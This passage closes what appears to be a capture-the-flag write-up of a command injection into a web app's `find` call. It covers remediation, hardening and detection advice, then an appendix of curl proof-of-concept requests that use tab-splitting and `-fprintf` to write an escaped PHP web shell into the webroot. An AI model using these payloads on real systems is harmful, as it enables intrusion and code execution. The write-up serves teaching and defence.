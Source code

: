 1. **Never concatenate user input into shell commands.** Use safe process execution primitives (e.g., `proc_open`, `execve` variants, or language-specific functions that accept an argv array) or better, avoid shelling out altogether.
2. **Whitelist acceptable inputs rather than blacklist characters.** If allowing only paths, validate using a strict regex (e.g., `^/[A-Za-z0-9/_-]+$`) and explicitly reject any sequences containing control characters or escape sequences.
3. **Remove direct file-writing capabilities from commands invoked with user input.** Do not allow `find` to accept arbitrary format strings or arguments coming from the web.

Long-term / defense-in-depth

1. Serve dynamic content with minimal privileges and restrict writable paths. Web server document roots should not be generally writable by the web process. Move webroot ownership to a separate deployment process or CI.
2. Harden PHP and webserver config: disable execution of uploaded files in directories writable by web processes; enable `open_basedir` restrictions; run PHP-FPM pools with reduced privileges and separate users per vhost if applicable.
3. Audit uses of shelling commands in codebase; add code reviews and automated scanners to detect unsafe concatenation into `system()`/`exec()`/backticks.

Monitoring / detection suggestions

- Alert on use of `find` with suspicious options like `printf`/`fprintf` originating from webserver processes.
- Watch for creation of new files under webroot by the webserver user.
- Log and review `system()` invocations or use of process creation APIs in web applications.

---

## Timeline & disclosure

- 2025-10-17 — vulnerability discovered during CTF challenge solving (by lilsadfoqs; analysis by Aurelinth).
- No real-world systems impacted; this was a CTF lab challenge. Disclosure to challenge author not required in contest context.

---

## Appendix

### Full PoC script (one-liners shown above)

1. Confirm tab-splitting:

```bash
curl 'http://161.97.155.116:8888/?cmd=/%09-maxdepth%091%09-ls'

```

1. Write PHP file (single HTTP request):

```bash
curl 'http://161.97.155.116:8888/?cmd=/%09-maxdepth%090%09-fprintf%09/var/www/html/p.php%09%27%5C074%5C077php%5C040echo%5C040%5C140/readflag%5C040i%5C040want%5C040the%5C040flag%5C040please%5C140%5C073%5C040%5C077%5C076%27'

```
